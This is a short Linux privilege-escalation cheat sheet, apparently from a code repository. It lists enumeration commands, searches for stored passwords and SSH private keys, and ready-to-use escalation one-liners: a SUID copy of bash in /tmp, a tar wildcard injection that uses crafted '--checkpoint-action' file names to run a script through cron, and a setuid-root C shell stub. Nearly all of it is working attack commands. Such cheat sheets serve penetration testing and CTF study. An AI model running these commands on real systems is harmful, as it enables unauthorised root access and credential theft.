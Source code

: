 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - ``` uname -a ```

Proccesses,services - ps aux, ps aux | grep root

Suid - find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null

trace - strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

Capabilities - getcap -r / 2>/dev/

NFS - cat /etc/exports

Architechture and cpu info - lscpu

## User Enumeration

Info about user - whoami, id

What can we run as sudo - sudo -l

Users - cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

## Network Enumeration

IP info - ifconfig,

Routing info - ip route

Connections - netstat

## Password Hunting

Password phrases - grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null

Password files - locate password

Finding ssh keys - find / -name id_rsa 2> /dev/null

## Useful commands

echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file

cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
